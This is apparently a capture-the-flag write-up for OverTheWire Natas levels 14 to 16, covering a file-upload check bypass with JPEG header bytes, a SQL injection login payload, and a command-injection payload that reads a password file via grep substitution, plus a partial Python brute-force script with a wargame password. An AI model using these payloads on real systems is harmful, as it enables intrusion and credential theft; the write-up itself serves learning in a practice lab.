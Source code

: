 # Natas 14

This one uses a function called exif-imagetype. There are multiple ways to bypass this One way is to embed php code in a valid image file. There is a check on the file name on the server side, and the header is how the type verification is being done.The other way is to bypass the file check by adding few headers, which fool the file type check. The headers are \xFF\xD8\xFF\xE0 (python way of writing hex) which are correspond to imagetype jpg and fool the exif_imagetype functions. Once these headers are in place, you can upload the file as before (in natas13)and proceed as usual.

# Natas 15

This is a simple SQL injection. No filters, no encoding, no web application firewalls. Go with

```
a" or 1=1 #
```

as both username and password.

# Natas 16

This one presents us with the possibility of command injection. But there is a twist — There is a filtering on characters like ‘;’, ‘|’ /[;|&`\’”]/ etc. This removes the possibility of simply appending a command and getting it executed. Remember, our goal here is to read the contents of the file ***/etc/natas_webpass/natas17\***. The first clue is if we search for something like “**^He**”. Note that the “^” is not in the list of illegal characters. We get all the words starting from the letters “He” like He , Hebrew etc. The question we should be asking is **“What if we could use the contents of the target file to perform the search?”** Look at the expression

```bash
^$(grep -o ^A /etc/natas_webpass/natas17)
```

What this expression is doing is searching for a prefix “A”, i.e checking whether the password is starting with A, and then using the result of the inner prefix search to feed the outer “^” . If the password does start with an A, it would simply return the letter A (The matched prefix), and if it fails the grep returns null, so the command simply becomes ^null , and we search for ^ which returns all words. However we could simply add a letter , say “I” after the above expression.

```bash
^$(grep -o ^A /etc/natas_webpass/natas17)I
```

What do we get now? If the inner grep fails (the prefix guess is incorrect), the query resolves to **^I** , and if the inner query is successful, the query resolves to **^{matched prefix}I**. If we search for the letter I, the results always begin with the single personal pronoun “I”.

So here we start by launching a bruteforce attack on all the characters in keyspace [a-zA-Z0–9] across the length of the password(same length for all levels). We can automate this in python with the powerful **requests** module which supports multiple http authentication types. The script is shown below.

```python
import requests
from requests.auth import HTTPBasicAuth
#identified sample=^$(grep -o ^Wa natas16)Iuser='natas16'
passw='WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
#clumsy but manageable
keyspace="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
leet = ""
for i in range(len(passw)):
    
    #if inner loop's guess is wrong then exploit will return I
    for j in range(len(keyspace)):
        expl ="^$(grep -o ^{} /etc/natas_webpass/natas17)I".format(leet+keyspace[j])
        #print(expl)
```
